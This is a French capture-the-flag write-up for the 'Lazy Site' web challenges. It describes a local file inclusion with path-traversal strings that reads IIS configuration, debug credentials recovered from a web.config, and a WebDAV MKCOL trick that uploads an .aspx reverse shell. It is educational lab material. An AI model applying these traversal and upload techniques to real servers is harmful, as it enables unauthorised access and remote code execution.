 # Lazy_Site
### European Cyber Week CTF

Le challenge n'est plus accessible donc je vais écrire avec ce dont je me souviens.

### Stats 
Completions 1/2  :  **73**

Completions 2/2  :  **37** 

Category         :  **Pentest**

### Lazy Site (1/2)
#### Description : This site is pretty much secure, because it has bearly no feature :D Or maybe? Server is available at https://allyourimages.challenge-ecw.fr.

En arrivant sur le site on a une page blanche avec une image d'un "donkey". En regardant le code source de la page on voit cette ligne "https://allyourimages.challenge-ecw.fr/ImageLoader/justlookatthis.aspx?img=donkey.png". Première chose intéressante c'est le format .aspx qui içi fait référence à un server Windows. Deuxièmement avec l'habitude ça fait directement penser à une LFI. Je peux donc télécharger quelques fichiers comme "./ImageLoader/justlookatthis.aspx" ou encore "./web.config". En cherchant sur internet je tombe sur cette [wordlist](https://gist.github.com/korrosivesec/a339e376bae22fcfb7f858426094661e) qui me permet de récupérer le fichier "./../../../../../Windows/System32/inetsrv/config/applicationHost.config". Le fichier contient entre autres ceci 

```xml
        <sites>
            <site name="Default Web Site" id="1">
                <application path="/">
                    <virtualDirectory path="/" physicalPath="%SystemDrive%\inetpub\wwwroot" />
                </application>
                <bindings>
                    <binding protocol="http" bindingInformation="*:80:" />
                </bindings>
            </site>
            <site name="allyourimages" id="441643884">
                <application path="/">
                    <virtualDirectory path="/" physicalPath="c:\inetpub\allyourimages" />
                </application>
                <bindings>
                    <binding protocol="http" bindingInformation="*:80:allyourimages.challenge-ecw.fr" />
                </bindings>
            </site>
            <site name="superstorage" id="1822011850">
                <application path="/">
                    <virtualDirectory path="/" physicalPath="c:\inetpub\superstorage_safe_folder" />
                </application>
                <bindings>
                    <binding protocol="http" bindingInformation="*:80:ultrasecure-hostname-superstorage.challenge-ecw.fr" />
                </bindings>
            </site>
            <siteDefaults>
                <logFile logFormat="W3C" directory="%SystemDrive%\inetpub\logs\LogFiles" />
                <traceFailedRequestsLogging directory="%SystemDrive%\inetpub\logs\FailedReqLogFiles" />
            </siteDefaults>
            <applicationDefaults applicationPool="DefaultAppPool" />
            <virtualDirectoryDefaults allowSubDirConfig="true" />
        </sites>
```

On observe donc qu'il existe un deuxieme site "ultrasecure-hostname-superstorage.challenge-ecw.fr". Par réflexe je viens récupérer son fichier web.config qui se trouve dans "./../../../../../../../inetpub/superstorage_safe_folder/web.config"

```xml
<!-- only use for debug purpose
      <appSettings>
             <add key="username" value="IISStorageUser"
             <add key="password" value="0NanhgWmClR42JhoHR1J"
      </appSettings>
 -->

```
Ces identifiants me permettent d'accéder au site et de récupérer le flag dans le code source de la page principale.

#### `Answer : ECW{Th4tw454w31rdl00k1ngd0nk3ey}`



### Lazy Site (2/2)
#### Description : No joke, this time it is really secure! I hope?

En regardant le fichier web.config de notre nouveau site on peut voir une référence à [WebDav](https://fr.wikipedia.org/wiki/WebDAV) qui permet de faire joujou avec les fichiers sur le server grâçe au protocole http. Le fichier général "applicationHost.config" nous donne plus d'informations.

```xml
    <location path="superstorage/App_Data">
        <system.webServer>
            <security>
                <requestFiltering>
                    <fileExtensions applyToWebDAV="false" />
                    <verbs applyToWebDAV="false" />
                </requestFiltering>
                <authentication>
                    <basicAuthentication enabled="true" />
                    <anonymousAuthentication enabled="false" />
                </authentication>
            </security>
            <webdav>
                <authoringRules>
                    <clear />
                    <add users="*" roles="" path="*.txt" access="Read, Write, Source" />
                </authoringRules>
            </webdav>
        </system.webServer>
    </location>
```
En gros, on peut créer des fichiers .txt sur le server en faisant des requêtes PUT en "http://ultrasecure-hostname-superstorage.challenge-ecw.fr/App_Data/mon_fichier.txt". Super ! Mais pas de Code Execution. Enfaite, ici rien ne précise que les .txt ne doivent être que des fichiers ! En faisans une requête avec l'option OPTIONS on voit que l'on peut utiliser l'option "MKCOL" qui permet de créer des dossiers. Donc je peux créer un dossier "mon_dossier.txt" et dans ce dossier je peux upload un reverse shell en .aspx.

Maintenant il suffit de parcourir le server pour trouver le flag. Le flag est lisible par l'utilisateur courant.

#### `Answer : NaN`

Write-up made wit :heart: by @LaGelee